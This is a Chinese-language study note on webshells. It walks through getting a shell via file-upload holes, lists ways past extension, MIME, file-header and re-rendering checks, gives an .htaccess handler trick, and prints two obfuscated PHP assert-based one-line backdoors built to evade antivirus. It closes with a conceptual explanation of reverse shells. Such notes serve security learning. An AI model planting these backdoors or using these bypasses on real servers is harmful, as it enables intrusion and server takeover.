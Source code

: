 # Webshell

## webshell的定义

WebShell就是**以asp、php、jsp或者cgi等网页文件形式存在的一种命令执行环境**，也可以将其称之为一种网页后门。攻击者在入侵了一个网站后，通常会将这些asp或php后门文件与网站服务器web目录下正常的网页文件混在一起，然后使用浏览器来访问这些后门，**得到一个命令执行环境，以达到控制网站服务器的目的**（可以上传下载或者修改文件，操作数据库，执行任意命令等）。

## 

### 常见的webshell一句话木马

https://blog.csdn.net/weixin_39190897/article/details/86772765

Get Shell

1. 目标文章存在文件上传漏洞
2. 执行文件上传操作，使用Burp Suite进行拦截，得到浏览器发送的请求
3. 将POST/GET请求发送到Reapter，修改请求的文件名和文件内容，绕过前端检测，发送一句话木马
4. 若文件上传失败，试从后缀名，木马书写格式，脚本等方面着手修改，再次尝试
5. 若文件上传成功，分析是否能从网页获取木马存储路径，获取完整路径后在浏览器访问木马网址，若访问成功进行下一步
6. 将木马网址复制到  antSword，填写主机地址：目标地址，填写密码： $POST['key'] 中的 key值，进行远程连接，若连接成功则可通过虚拟终端进行操作





### 绕过前端MIME的方法

​		Burp Suite 抓包，重写请求模拟正常POST/GET请求。



### 绕过后端文件检测

#### 简单绕过

##### 1.文件内容检测	--->	改变书写格式	

```php+HTML
<?php ?>
<? ?>
<script language="php"> </script> 
```



##### 2.黑名单检测	--->	改变文件后缀

​	.php	--->	.pphphp	.PHP	pHP5	php6



##### 3. asp漏洞

​	1)假设当前有一个名为"xxx.asp"的目录，那么该目录下的所有文件都将被作为asp文件解析

​	2)假设上传一个名为"test.asp;xxx.jpg"时，该文件会被当做asp文件解析



##### 4.检测文件头判断文件类型	--->	添加文件头

​	此时虽然检查的也是文件类型，但是是使用`getimagesize()`函数来获取文件的MIME类型，此时检测的不是数据包中的`content-type`，而是图片的文件头，常见的图片文件头如下：

> gif(GIF89a) : 47 49 46 38 39 61
>
> jpg、jpeg : FF D8 FF
>
> png : 89 50 4E 47 0D 0A

​	当上传php文件时，可以使用**winhex**、**010editor**等十六进制处理工具，在数据最前面添加图片的文件头，从而绕过检测



##### 5. 图片二次渲染	--->	将一句话木马添加到图片数据中伪装

​	检测机制是后端调用了php的GD库，提取了文件中的图片数据，然后再重新渲染，这样图片中插入的恶意代码就会被过滤掉了。

​	解决方法是：把木马插入到图片数据中，这样经过渲染后这部分数据还是会保留下来



#### 复杂绕过

##### 1. 白名单检测	--->	利用.htaccess解析

> htaccess文件(或者"分布式配置文件"）,全称是Hypertext Access(超文本入口)。提供了针对目录改变配置的方法， 即，在一个特定的文档目录中放置一个包含一个或多个指令的文件， 以作用于此目录及其所有子目录。作为用户，所能使用的命令受到限制。管理员可以通过Apache的AllowOverride指令来设置。

​	上传一个 .htaccess文件	

​	P.S.	.htaccess 即使大小写不同也可执行！e.g. .hTaccess

​	配置方式

```
<FilesMatch "test.jpg">
  SetHandler application/x-httpd-php
</FilesMatch>
```

​	然后再上传一个 test.jpg 内容替换为木妈



##### 2. 木马免杀

​	1) 构造函数

```php
 # <?php $password = "LandGrey";array_udiff_assoc(array($_REQUEST[$password]), array(1), "assert");?>
     
#<?php/** * Noticed: (PHP 5 >= 5.3.0, PHP 7) * */$password = "LandGrey";$wx = substr($_SERVER["HTTP_REFERER"],-7,-4);forward_static_call_array($wx."ert", array($_REQUEST[$password]));?>   
```



## 反弹shell

反弹shell（reverse shell），就是控制端监听在某TCP/UDP端口，被控端发起请求到该端口，并将其命令行的输入输出转到控制端。reverse shell与telnet，ssh等标准shell对应，本质上是网络概念的客户端与服务端的角色反转。

 

**为什么要反弹shell？**

通常用于被控端因防火墙受限、权限不足、端口被占用等情形。

举例：攻击了一台机器，打开了该机器的一个端口，攻击者在自己的机器去连接目标机器（目标ip：目标机器端口），这是正向连接。远程桌面、web服务、ssh、telnet等等都是正向连接。什么情况下正向连接不能用了呢？

1.某客户机中了你的网马，但是它在局域网内，你直接连接不了。 

2.目标机器的ip动态改变，你不能持续控制。

3.由于防火墙等限制，对方机器只能发送请求，不能接收请求。

4.对于病毒，木马，受害者什么时候能中招，对方的网络环境是什么样的，什么时候开关机等情况都是未知的，所以建立一个服务端让恶意程序主动连接，才是上策。

那么反弹就很好理解了，攻击者指定服务端，受害者主机主动连接攻击者的服务端程序，就叫反弹连接。

